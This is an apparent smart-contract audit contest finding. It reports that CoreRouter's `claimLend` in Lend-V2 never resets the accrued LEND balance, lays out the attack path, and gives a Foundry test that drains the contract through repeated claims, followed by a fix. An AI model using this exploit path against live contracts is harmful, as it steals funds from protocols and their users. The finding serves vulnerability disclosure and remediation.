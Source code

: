 Upbeat Steel Hippo

High

# LEND Token Double-Claiming Vulnerability

### Summary

Missing accrued balance reset will cause a critical fund drain vulnerability for the protocol as users will be able to repeatedly claim the same LEND rewards multiple times.

### Root Cause

In the `claimLend` function transfers LEND tokens to users based on their accrued rewards but fails to reset the `lendAccrued` value in `lendStorage` after the transfer.
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L402


### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. User accrues LEND rewards by supplying/borrowing assets
2. User calls `coreRouter.claimLend()` to claim their rewards
3. CoreRouter transfers LEND tokens to the user
4. CoreRouter does not reset `lendAccrued[user]` value in storage
5. User calls `coreRouter.claimLend()` again
6. CoreRouter reads the same unreset accrued value and transfers LEND tokens again
7. Steps 5-6 can be repeated until the CoreRouter's LEND balance is drained

### Impact

The protocol suffers a loss of LEND tokens equal to (number of claims - 1) * accrued rewards per user. This can potentially drain the entire LEND token balance of the CoreRouter contract, stealing tokens that should be distributed to other users.

### PoC
Using this test in test/mocks/TestLendAccrual.t.sol
```solidity

    function test_repeated_claims_drain_lend_tokens() public {
        // Supply tokens to start accruing LEND
        uint256 supplyAmount = 1000e18;
        (, address lToken) = _supply(supplyAmount, user1);

        // Advance time to accrue rewards
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);
        
        // Setup for claiming
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);
        
        // Check accrued LEND before claims
        uint256 accrued = lendStorage.lendAccrued(user1);
        assertGt(accrued, 0, "User should have accrued LEND");
        
        // Get LEND token address and balances
        address lendToken = lendtroller.getLendAddress();
        uint256 initialUserBalance = IERC20(lendToken).balanceOf(user1);
        uint256 initialProtocolBalance = IERC20(lendToken).balanceOf(address(coreRouter));
        
        console2.log("Initial Protocol LEND Balance:", initialProtocolBalance);
        console2.log("User's Accrued LEND:", accrued);
        
        // Calculate how many times we can claim based on protocol balance
        uint256 maxClaims = initialProtocolBalance / accrued;
        uint256 claimCount = 10; // We'll try to claim 10 times
        
        if (claimCount > maxClaims) {
            claimCount = maxClaims;
        }
        
        console2.log("Will perform claims:", claimCount);
        
        // Repeatedly claim LEND tokens
        for (uint256 i = 0; i < claimCount; i++) {
            vm.prank(user1);
            coreRouter.claimLend(holders, lTokenArray, false, true);
        }
        
        // Check final balances
        uint256 finalUserBalance = IERC20(lendToken).balanceOf(user1);
        uint256 finalProtocolBalance = IERC20(lendToken).balanceOf(address(coreRouter));
        
        // Total claimed should be original accrual times the number of claims
        uint256 expectedClaimed = accrued * claimCount;
        assertEq(
            finalUserBalance - initialUserBalance, 
            expectedClaimed, 
            "Vulnerability: User claimed multiple times the accrued amount"
        );
        
        // Protocol balance should be reduced by the same amount
        assertEq(
            initialProtocolBalance - finalProtocolBalance, 
            expectedClaimed, 
            "Protocol lost multiple times the accrued amount"
        );
        
        console2.log("Final Protocol LEND Balance:", finalProtocolBalance);
        console2.log("User gained LEND:", finalUserBalance - initialUserBalance);
    }
```

### Mitigation


The fix requires adding a line to reset the accrued LEND balance after transfer in the `claimLend` function:

```solidity
function claimLend(address[] memory holders, LToken[] memory lTokens, bool borrowers, bool suppliers) external {
    LendtrollerInterfaceV2(lendtroller).claimLend(address(this));

    // Distribution logic...

    for (uint256 j = 0; j < holders.length;) {
        uint256 accrued = lendStorage.lendAccrued(holders[j]);
        if (accrued > 0) {
            // Transfer LEND tokens
            uint256 remaining = grantLendInternal(holders[j], accrued);
            
            // FIX: Reset accrued balance to prevent double claiming
            lendStorage.setLendAccrued(holders[j], remaining);
        }
        unchecked {
            ++j;
        }
    }
}
```

